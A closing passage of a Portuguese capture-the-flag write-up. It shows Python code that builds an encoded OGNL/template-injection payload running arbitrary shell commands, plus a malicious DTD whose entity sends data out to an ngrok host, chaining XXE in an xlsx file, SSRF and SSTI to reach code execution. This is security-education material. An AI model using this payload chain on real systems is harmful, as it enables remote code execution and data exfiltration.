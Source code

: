 ```python
	payload = "%5cu0027%2b{Class.forName(%5cu0027javax.script.ScriptEngineManager%5cu0027).newInstance().getEngineByName(%5cu0027JavaScript%5cu0027).%5cu0065val(%5cu0027var+isWin+%3d+java.lang.System.getProperty(%5cu0022os.name%5cu0022).toLowerCase().contains(%5cu0022win%5cu0022)%3b+var+cmd+%3d+new+java.lang.String(%5cu0022"+command+"%5cu0022)%3bvar+p+%3d+new+java.lang.ProcessBuilder()%3b+if(isWin){p.command(%5cu0022cmd.exe%5cu0022,+%5cu0022/c%5cu0022,+cmd)%3b+}+else{p.command(%5cu0022bash%5cu0022,+%5cu0022-c%5cu0022,+cmd)%3b+}p.redirectErrorStream(true)%3b+var+process%3d+p.start()%3b+var+inputStreamReader+%3d+new+java.io.InputStreamReader(process.getInputStream())%3b+var+bufferedReader+%3d+new+java.io.BufferedReader(inputStreamReader)%3b+var+line+%3d+%5cu0022%5cu0022%3b+var+output+%3d+%5cu0022%5cu0022%3b+while((line+%3d+bufferedReader.readLine())+!%3d+null){output+%3d+output+%2b+line+%2b+java.lang.Character.toString(10)%3b+}%5cu0027)}%2b%5cu0027"
	return payload

cmd = sys.argv[1]

dtd = f"""
<!ENTITY % data SYSTEM "http://documentacao:8090/pages/doenterpagevariables.action?queryString={craft_payload(cmd)}">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://xxxxxxx.ngrok.io/?data=%data;'>">
"""
open('bigous.dtd', 'w').write(dtd)
send_file()
```

![Untitled](/assets/planilhasbaby/Untitled%2015.png)

![Untitled](/assets/planilhasbaby/Untitled%2016.png)

FLAG: LW2021{XXE_SSRF_SSTI_f0r_Sur3_You_Are_The_N3w_0r4ng3}

E é isso, usamos um XXE OOB dentro de um xlsx para explorar um SSRF que explora um SSTI em uma aplicação vulnerável, para conseguir RCE.

Espero que tenham gpostado do write-up, desculpe por não meaprofundar tanto nos XXE (depois de longas horas eu to meio cansado de falar disso kkkkk).

Até breve o/